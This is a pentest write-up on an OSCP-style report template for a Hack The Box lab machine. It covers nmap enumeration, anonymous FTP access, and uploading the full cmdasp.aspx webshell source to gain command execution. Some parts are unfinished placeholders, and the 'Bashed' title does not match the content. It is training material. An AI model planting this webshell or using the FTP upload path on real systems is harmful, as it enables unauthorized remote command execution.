



# Pentesting Report - Bashed

## Introduction

The Offensive Security Exam penetration test report contains all efforts that were conducted in order to pass the Offensive Security course.
This report should contain all items that were used to pass the overall exam.
This report will be graded from a standpoint of correctness and fullness to all aspects of the  exam.
The purpose of this report is to ensure that the student has a full understanding of penetration testing methodologies as well as the technical knowledge to pass the qualifications for the Offensive Security Certified Professional.

## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The student is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.
An example page has already been created for you at the latter portions of this document that should give you ample information on what is expected to pass this course.
Use the sample report as a guideline to get you through the reporting.

## Requirements

The student will be required to fill out this penetration testing report and include the following sections:

- Overall High-Level Summary and Recommendations (non-technical)
- Methodology walkthrough and detailed outline of steps taken
- Each finding with included screenshots, walkthrough, sample code, and proof.txt if applicable.
- Any additional items that were not included

# Sample Report - High-Level Summary

John Doe was tasked with performing an internal penetration test towards Offensive Security Labs.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Offensive Security's internal lab systems - the **THINC.local** domain.
John's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Offensive Security.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Offensive Security's network.
When performing the attacks, John was able to gain access to multiple machines, primarily due to outdated patches and poor security configurations.
During the testing, John had administrative level access to multiple systems.
All systems were successfully exploited and access granted.
These systems as well as a brief description on how access was obtained are listed below:

- Exam Trophy 1 - Got in through X
- Exam Trophy 2 - Got in through X

## Sample Report - Recommendations

John recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Sample Report - Methodologies

John utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Labs and Exam environments are secure.
Below is a breakout of how John was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Sample Report - Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, John was tasked with exploiting the exam network.
The specific IP addresses were:

**Exam Network**

Host: 10.10.10.5

## Sample Report - Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

# Nmap scan host

```
user@kali:~/hackthebox/hackthebox/devel$ cat nmap/devel-fulltcp.nmap 
# Nmap 7.91 scan initiated Wed Jan  6 20:57:09 2021 as: nmap -Pn -sC -sV -p- -oA nmap/devel-fulltcp 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.026s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  6 20:59:05 2021 -- 1 IP address (1 host up) scanned in 115.33 seconds
```
On browsing the main website we see the following page:



When we log as anonymous user with FTP on the host we see the files of a IIS default website.

```
user@kali:~/hackthebox/hackthebox/devel$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:user): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> passive
Passive mode on.
ftp> ls -a
227 Entering Passive Mode (10,10,10,5,192,7).
150 Opening ASCII mode data connection.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

We are able to upload a test.txt file to the FTP server.

```
ftp> put test.txt 
local: test.txt remote: test.txt
227 Entering Passive Mode (10,10,10,5,192,9).
125 Data connection already open; Transfer starting.
226 Transfer complete.
7 bytes sent in 0.00 secs (455.7292 kB/s)
ftp> ls -a
227 Entering Passive Mode (10,10,10,5,192,10).
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
01-06-21  10:06PM                    7 test.txt
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

We see that the test.txt can be retrieved via the web, confirming we have full control of the content of the webserver.



We prepare a cmdasp.aspx inside a upload dir.

```
user@kali:~/hackthebox/hackthebox/devel/upload$ cp /usr/share/webshells/aspx/cmdasp.aspx .
user@kali:~/hackthebox/hackthebox/devel/upload$ ls
cmdasp.aspx
```

No change in source code is neccesary:

```
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>

<!-- Contributed by Dominic Chell (http://digitalapocalypse.blogspot.com/) -->
<!--    http://michaeldaw.org   04/2007    -->
```

upload the webshell:

```
user@kali:~/hackthebox/hackthebox/devel/upload$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:user): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
01-06-21  10:06PM                    7 test.txt
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> put cmdasp.aspx
local: cmdasp.aspx remote: cmdasp.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.00 secs (28.6500 MB/s)
ftp> 
```

We get access to the webshell:



**Vulnerability Fix:**

## Sample Report - Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

John added administrator and root level accounts on all systems compromised.
In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to ensure that additional access could be established.

## Sample Report - House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After the trophies on the exam network were completed, John removed all user accounts and passwords as well as the meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items Not Mentioned in the Report

This section is placed for any additional items that were not mentioned in the overall report.
